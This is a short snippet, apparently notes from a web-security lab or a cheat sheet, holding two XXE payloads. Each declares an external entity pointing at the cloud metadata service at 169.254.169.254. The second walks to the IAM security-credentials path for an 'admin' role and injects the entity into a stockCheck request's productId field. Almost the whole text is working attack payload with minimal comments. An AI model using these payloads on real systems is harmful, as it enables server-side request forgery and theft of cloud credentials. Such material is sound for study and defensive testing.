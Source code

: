 #check the url
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254">
]>

#enter inside the folders
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
